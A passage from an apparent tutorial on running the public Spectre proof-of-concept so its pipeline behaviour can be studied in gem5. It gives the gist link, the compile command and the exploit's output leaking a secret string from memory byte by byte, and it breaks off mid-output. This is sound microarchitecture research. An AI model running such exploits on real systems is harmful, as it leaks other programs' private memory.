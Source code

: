 Running Spectre
---------------

The first step to visualizing what is going on in the pipeline during a
Spectre attack is getting proof of concept exploit code. I used the code
that was posted to a github gist by Erik August soon after the attack
was announced. You can get that code here:
<https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6>.

First, you need to compile the proof of concept code on your native
machine (note: I'll be using x86 for all of my examples).

```
gcc spectre.c -o spectre -static
```

I used gcc 7.2 (the default on Ubuntu 17.10) for my tests, and you may
want to do the same. [Below](#effects-of-compilers) I discuss the
effects different compilers have on the Specre attack. For instance, if
you use clang instead you may not be able to reproduce the Spectre
attack in gem5.

My native machine is still vulnerable to Spectre so when I run the
binary generated above, I get the following output.

    Reading 40 bytes:                 
    Reading at malicious_x = 0xffffffffffdd76c8... Success: 0x54=’T’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76c9... Success: 0x68=’h’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ca... Success: 0x65=’e’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cb... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cc... Success: 0x4D=’M’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cd... Success: 0x61=’a’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ce... Success: 0x67=’g’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76cf... Success: 0x69=’i’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d0... Success: 0x63=’c’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d1... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d2... Success: 0x57=’W’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d3... Success: 0x6F=’o’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d4... Success: 0x72=’r’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d5... Success: 0x64=’d’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d6... Success: 0x73=’s’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d7... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d8... Success: 0x61=’a’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76d9... Success: 0x72=’r’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76da... Success: 0x65=’e’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76db... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76dc... Success: 0x53=’S’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76dd... Success: 0x71=’q’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76de... Success: 0x75=’u’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76df... Success: 0x65=’e’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e0... Success: 0x61=’a’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e1... Success: 0x6D=’m’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e2... Success: 0x69=’i’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e3... Success: 0x73=’s’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e4... Success: 0x68=’h’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e5... Success: 0x20=’ ’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e6... Success: 0x50=’P’ score=9 (second best: 0x06 score=2)                                    
    Reading at malicious_x = 0xffffffffffdd76e7... Success: 0x73=’s’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e8... Success: 0x73=’s’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76e9... Success: 0x69=’i’ score=2                                                                
    Reading at malicious_x = 0xffffffffffdd76ea... Success: 0x66=’f’ score=2                                                                